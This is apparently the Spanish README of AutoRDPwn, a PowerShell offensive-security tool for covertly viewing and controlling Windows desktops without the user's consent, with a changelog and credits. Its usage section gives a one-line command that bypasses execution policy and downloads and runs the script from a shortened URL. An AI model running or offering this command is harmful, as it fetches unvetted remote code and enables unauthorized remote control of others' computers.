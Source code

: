 # AutoRDPwn: The Shadow Attack Framework

![autordpwn](https://user-images.githubusercontent.com/34335312/44861779-8bb95780-ac79-11e8-97e8-3008df1f0d5b.png)

AutoRDPwn es un script creado en PowerShell para automatizar el proceso de visualización y control del escritorio de forma remota y sin consentimiento del usuario en equipos Windows. Para su correcto funcionamiento es necesario cumplir algunos requisitos que se describen en la guía de uso.


# Cambios

## Versión 2.6
• Correción de errores

• Auto-detección de Id de sesión

## Versión 2.4
• Nuevo tipo de ataque disponible: ScheduleTask

## Versión 2.2
• Mejoras y cambios de código

• Añadida la opción de visualizar o controlar el equipo remoto

• Eliminado el popup de PsExec con el argumento -accepteula

## Versión 2.0
• Primera release pública


# Uso
Ejecución en una línea:

powershell -ExecutionPolicy Bypass "iwr https://goo.gl/HSkAXP -Outfile "%TEMP%\AutoRDPwn.ps1" ; %TEMP%\AutoRDPwn.ps1"

La guía detallada de uso se encuentra en: https://darkbyte.net/autordpwn-the-shadow-attack-framework


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• Mark Russinovich por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• Marc R Kellerman por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• Stas'M Corp. por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net
